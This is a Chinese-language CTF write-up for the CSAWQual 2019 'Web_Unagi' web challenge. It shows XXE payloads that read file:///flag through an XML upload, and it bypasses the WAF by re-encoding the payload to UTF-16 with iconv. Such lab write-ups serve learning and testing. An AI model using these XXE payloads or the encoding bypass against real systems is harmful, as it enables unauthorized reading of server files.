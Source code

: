 ```yaml
---
title: '[CSAWQual 2019]Web_Unagi'
date: 2024-07-24 19:57:32
tags: xxe
categories: 刷题笔记
---
```


## [CSAWQual 2019]Web_Unagi（xxe）

打开页面，我们在upload模块里发现一个here链接

我们点击，提示了xml格式，我们可以猜测，这道题是xxe漏洞

![image-20240724200440973](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202407242004078.png)

我们构造xml

<!--more-->

```
<?xml version='1.0'?>
<!DOCTYPE users [
<!ENTITY xxe SYSTEM "file:///flag" >]>
<users>
    <user>
        <username>bob</username>
        <password>passwd2</password>
        <name> Bob</name>
        <email>bob@fakesite.com</email>  
        <group>&xxe;</group>
    </user>
</users>
```

我们上传时，提示被拦截了

![image-20240724202418064](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202407242024098.png)

我们转换编码绕过waf，改为utf-16

```
cat 1.xml | iconv -f utf8 -t utf-16 1.xml>2.xml
```

![image-20240724203632652](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202407242036686.png)

嗯，有长度限制，我们观察user界面，发现还有个intro标签，我们加上

```
<?xml version = "1.0"?>
<!DOCTYPE ANY [
<!ENTITY xxe SYSTEM "file:///flag" >
]>
<users>
    <user>
        <username>&xxe;</username>
        <password>&xxe;</password>
        <name>&xxe;</name>
        <email>&xxe;</email>  
        <group>&xxe;</group>
        <intro>&xxe;</intro>
    </user>
</users>
```

得到flag

![image-20240724203755837](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202407242037878.png)

